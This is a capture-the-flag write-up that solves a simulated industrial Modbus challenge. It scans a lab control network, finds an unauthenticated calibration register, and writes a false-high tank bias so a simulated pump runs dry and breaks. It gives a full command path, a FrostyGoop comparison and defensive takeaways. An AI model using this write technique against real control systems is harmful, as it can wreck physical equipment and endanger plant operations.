# Breaking the Last Bottle: an ICS Modbus CTF write-up

> **Spoilers ahead.** This is the complete solution to *The Last Bottle*. Run
> these commands only inside the isolated challenge environment.

| | |
|---|---|
| Category | ICS / OT |
| Difficulty | Beginner to intermediate |
| Protocol | Modbus/TCP |
| Starting point | Line 4 maintenance workstation |
| Objective | Permanently break transfer pump P-101 and claim the proof token |
| Flag format | `flag{...}` |

## TL;DR

The maintenance workstation can write to an unauthenticated Modbus holding
register on the tank-level Remote I/O device. That register is a calibration
bias. Setting it to `+100.00%` makes the PLC believe the tank is full even as
the real tank empties. The pump eventually runs dry, reaches 100% simulated
damage, and the independent checker releases the flag.

The final primitive is only one command:

```sh
mbcli write 172.30.10.13 40001 10000
```

Finding the correct device and register, and understanding why that command
breaks a machine, is the actual challenge.

## The plant in one minute



You do not need previous ICS experience, but four components matter:

- **RIO-101** reads the physical tank-level sensor and publishes the value.
- **PLC-101** reads that value and controls the inlet and transfer pump.
- **HMI/SCADA** shows operators what the PLC believes is happening.
- **The plant model** owns the real tank and pump state. The checker trusts
  this state, not whatever number is displayed by the HMI.

The devices exchange values through **Modbus/TCP**, usually on port 502.
Modbus organizes data into register tables. In this challenge, `3xxxx` input
registers contain read-only measurements, while `4xxxx` holding registers
contain parameters that may be writable.

That distinction becomes important later.

## Getting a foothold

The supplied SSH account drops us onto a maintenance workstation inside the
Line 4 control VLAN:

```sh
ssh player@CHALLENGE_HOST -p 2224
```



The brief gives us three useful facts:

1. the authorized control-network range is `172.30.10.0/24`;
2. production reported contradictory level and dry-run indications;
3. the flag is released only after a real simulated equipment failure.

This immediately suggests an integrity problem: the controller may be acting
on a process value that does not match reality.

## Recon: finding the control devices

I started with host discovery instead of launching a 65,535-port scan against
all 256 addresses:

```sh
nmap -sn -n 172.30.10.0/24
```



The interesting addresses are `.11`, `.12`, `.13` and `.20`. Address `.1` is
the network gateway, while `.50` is our own workstation.

Now we can scan only the four candidates:

```sh
nmap -sT -Pn -n -p- --open --min-rate 3000 --max-retries 1 \
  172.30.10.11-13 172.30.10.20
```



The result gives us three Modbus endpoints and one web interface:

```text
172.30.10.11:502   Modbus/TCP
172.30.10.12:502   Modbus/TCP
172.30.10.13:502   Modbus/TCP
172.30.10.20:8080  HMI
```

The HMI is useful for visual context, but it is not required to solve the
challenge. We can stay entirely at the protocol layer.

<details>
<summary>Why was the first full-subnet scan so slow?</summary>

A full TCP scan of `/24` probes more than 16 million address/port pairs. Unused
addresses silently drop traffic, forcing Nmap to wait and retry. Discovering
live hosts first reduces the problem to four systems.



</details>

## Enumeration: which device matters?

An open Modbus port tells us very little by itself. The next step is to request
each device's standard identity objects:

```sh
mbcli identify 172.30.10.11
mbcli identify 172.30.10.12
mbcli identify 172.30.10.13
```



The names explain the process topology:

| Address | Identity | Relevance |
|---|---|---|
| `172.30.10.11` | PLC-101: Tank and Transfer Pump Controller | Controls the machine we must break |
| `172.30.10.12` | PLC-102: Bottle Conveyor Controller | Unrelated production context |
| `172.30.10.13` | RIO-101: LT-101 Remote I/O Gateway | Supplies the tank-level measurement |

This is the key deduction. PLC-101 is the **victim controller**, but RIO-101 is
the **source of the suspicious data**. If the level indication is
contradictory, `.13` is the logical place to investigate.

## Following the tank-level signal

I read two input registers from RIO-101:

```sh
mbcli read-input 172.30.10.13 30001 2
```


Repeating the command shows that the first value moves with the process while
the second stays at `1`:



From that behavior we can infer:

```text
30001  reported tank level, scaled by 0.01%
30002  sensor communication quality, where 1 means good
```

The important detail is that the device claims the measurement is healthy.
The PLC has no obvious reason to distrust it.

## Looking for a writable parameter

Measurements normally live in input registers, while calibration and
maintenance settings commonly live in holding registers. I checked the first
holding-register reference and then the next address:

```sh
mbcli read-holding 172.30.10.13 40001 1
mbcli read-holding 172.30.10.13 40002 1
```


Register `40001` exists and contains zero. Register `40002` returns an illegal
address error. The map is deliberately small, leaving one plausible
maintenance parameter to test.

The output also shows `offset 0`. That is normal Modbus notation: human-facing
reference `40001` maps to zero-based holding-register offset `0`.

## Testing the hypothesis safely

Before making a destructive change, I used a small and reversible value:

```sh
mbcli write 172.30.10.13 40001 500
mbcli read-input 172.30.10.13 30001 2
mbcli read-holding 172.30.10.13 40001 1
```



The holding register now contains `500`, and the reported level rises by
approximately five percentage points. That tells us the register is a signed
calibration bias with a `0.01%` scale.

I restored it before continuing:

```sh
mbcli write 172.30.10.13 40001 0
```


At this point the vulnerability is proven: any reachable Modbus client can
change a trusted sensor calibration parameter without authenticating.

## Exploitation: lying to the PLC

The destructive test sets the calibration bias to `+100.00%`:

```sh
mbcli write 172.30.10.13 40001 10000
```


The write is a valid Modbus function-code 06 request. It succeeds without a
password, client certificate, source-host allowlist or application-level
authorization.

Here is what happens next:



RIO-101 adds the malicious bias to the real sensor value. PLC-101 sees a full
tank, closes the inlet, and continues the transfer sequence. The actual tank
eventually empties, but the reported level remains high enough to satisfy the
PLC's low-level permissive. P-101 runs dry and accumulates damage.

## Watching the machine fail

PLC-101 exposes its process state through ten input registers. This portable
loop avoids the `xterm-kitty` terminfo error produced by `watch` in the minimal
player container:

```sh
for i in $(seq 1 30); do
  date -u +%H:%M:%S
  mbcli read-input 172.30.10.11 30001 10
  sleep 3
done
```

Once the failure is complete, a final read shows:



| Register | Raw value | Meaning |
|---:|---:|---|
| 30001 | 10000 | Reported tank level = 100.00% |
| 30006 | 149 | Dry-run duration = 14.9 seconds |
| 30007 | 10000 | Pump damage = 100.00% |
| 30009 | 1 | Dry-run alarm active |
| 30010 | 3 | Machine state = `BROKEN` |

This is more than a display change. The independent physical model has
recorded terminal equipment damage.

## Capturing the flag

From the supplied workstation, the lab checker is reachable on the edge
network:

```sh
curl http://172.30.30.30:8080/api/claim
```

Players can also use the public endpoint supplied by the organizer:

```sh
curl http://CHALLENGE_HOST:8090/api/claim
```



The response confirms all three conditions:

```text
machine_state = BROKEN
pump_damage   = 100.0
solved        = true
```

Flag obtained: `flag{...}`.

## So, what was the vulnerability?

The short answer is **an unauthenticated write to a trusted Modbus holding
register**.

The complete failure required several weaknesses to line up:

1. the maintenance workstation could reach field I/O over the control VLAN;
2. classic Modbus/TCP did not authenticate the sender or protect message
   integrity;
3. RIO-101 accepted a write from any reachable client;
4. the calibration value had no safe engineering-range restriction;
5. PLC-101 trusted one network-derived level value;
6. no independent hardwired low-level trip protected the pump.

The PLC logic was not bypassed and its program was not modified. It made a
locally correct decision using false information.

## How FrostyGoop relates to the challenge

The scenario is behaviorally inspired by the FrostyGoop incident, not by the
malware's implementation. Dragos reported Modbus commands being sent to ENCO
controllers during a disruptive Ukrainian district-heating incident, causing
inaccurate measurements and system malfunctions. MITRE records that
FrostyGoop can read and write holding registers over Modbus/TCP.

| Documented behavior | Safe lab adaptation |
|---|---|
| Communicate over Modbus TCP/502 | Use `mbcli` over the isolated control VLAN |
| Read and write holding registers | Discover and change RIO register 40001 |
| Modify operational parameters | Change the level-transmitter calibration |
| Cause inaccurate measurements | Report a false-high tank level |
| Disrupt an industrial process | Dry-run a simulated transfer pump |

The challenge does not reproduce FrostyGoop code, ENCO hardware, exact
register maps, the victim environment or its initial-access method.

Relevant references:

- [Dragos: Protect Against FrostyGoop ICS Malware](https://www.dragos.com/blog/protect-against-frostygoop-ics-malware-targeting-operational-technology)
- [MITRE ATT&CK S1165: FrostyGoop](https://attack.mitre.org/software/S1165/)
- [Modbus Organization: Modbus Security](https://www.modbus.org/news/modbus-security-new-protocol-to-improve-control-system-security)

The closest ATT&CK for ICS mappings are Monitor Process State (`T0801`),
Modify Parameter (`T0836`), Standard Application Layer Protocol (`T0869`) and
Commonly Used Port (`T0885`). Unauthorized Message: Command Message
(`T1692.001`) also describes the lab's command primitive, although MITRE does
not currently list it directly on the FrostyGoop software page.

## Defensive takeaways

- Allow only the PLC and authorized engineering stations to reach RIO-101.
- Filter Modbus write function codes and permitted address ranges.
- Alert on changes to calibration, setpoint and safety-relevant registers.
- Enforce engineering limits and change approval for calibration values.
- Use Modbus Security or an authenticated tunnel where supported.
- Add an independent sensor or hardwired low-level pump trip.
- Compare controller telemetry against independent physical invariants.

## Command path

For reference, the complete solve can be reduced to:

```sh
nmap -sn -n 172.30.10.0/24
nmap -sT -Pn -n -p- --open --min-rate 3000 --max-retries 1 \
  172.30.10.11-13 172.30.10.20

mbcli identify 172.30.10.11
mbcli identify 172.30.10.12
mbcli identify 172.30.10.13

mbcli read-input 172.30.10.13 30001 2
mbcli read-holding 172.30.10.13 40001 1
mbcli read-holding 172.30.10.13 40002 1

mbcli write 172.30.10.13 40001 500
mbcli write 172.30.10.13 40001 0
mbcli write 172.30.10.13 40001 10000

mbcli read-input 172.30.10.11 30001 10
curl http://172.30.30.30:8080/api/claim
```

## Additional evidence

The main narrative uses the most useful screenshots. The complete manual solve
is preserved below:

| # | Evidence |
|---:|---|
| 01 | [Player brief](assets/screenshots/01-player-brief.png) |
| 02 | [Network discovery](assets/screenshots/02-network-discovery.png) |
| 03 | [Focused PLC-101 scan](assets/screenshots/03-plc101-port-scan.png) |
| 04 | [PLC-101 identity](assets/screenshots/04-plc101-identification.png) |
| 05 | [Slow-scan troubleshooting](assets/screenshots/05-full-subnet-scan-timeout.png) |
| 06 | [Efficient service discovery](assets/screenshots/06-live-host-and-service-discovery.png) |
| 07 | [Modbus device identities](assets/screenshots/07-modbus-device-identification.png) |
| 08 | [Initial RIO inputs](assets/screenshots/08-rio-input-registers.png) |
| 09 | [Dynamic level telemetry](assets/screenshots/09-dynamic-level-telemetry.png) |
| 10 | [Holding-register boundary](assets/screenshots/10-rio-holding-register-boundary.png) |
| 11 | [Small calibration test](assets/screenshots/11-small-calibration-write.png) |
| 12 | [Calibration restored](assets/screenshots/12-calibration-restored.png) |
| 13 | [False-high write](assets/screenshots/13-final-false-level-write.png) |
| 14 | [Terminal machine failure](assets/screenshots/14-terminal-machine-failure.png) |
| 15 | [Flag validation](assets/screenshots/15-flag-claimed.png) |

## Conclusion

The interesting part of this challenge is not that Modbus accepts a write. It
is how one trusted value crosses several layers:

```text
network command → sensor data → PLC decision → physical consequence
```

That is the defining lesson of ICS security: a message can be perfectly valid
at the protocol layer and still be dangerous to the process.
